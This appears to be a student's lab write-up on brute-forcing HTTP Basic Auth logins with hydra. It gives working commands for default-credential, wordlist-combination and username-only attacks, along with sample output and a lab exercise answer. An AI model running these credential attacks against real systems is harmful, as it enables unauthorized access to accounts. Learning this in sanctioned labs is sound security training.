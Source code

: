 # ☄️ Basic HTTP Auth Brute Forcing

To install hydra -> "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra)

It's good to start with lists of default passwords such as `test:test,`if we could not find any working pairs, we would move to use separate wordlists

Good lists are from seclist in the `/usr/share/seclists/Passwords/Default-Credentials`

```shell-session
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

And the output will look something like that:

```shell-session
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

_**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**_

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.50.83 -s 44054 http-get
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

### Username/Password Attack

{% hint style="info" %}
"-u" flag so that it tries all users on each password and goes faster
{% endhint %}

```
 hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

we can brute force passwords for the `test` user by adding `-l test`

If we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
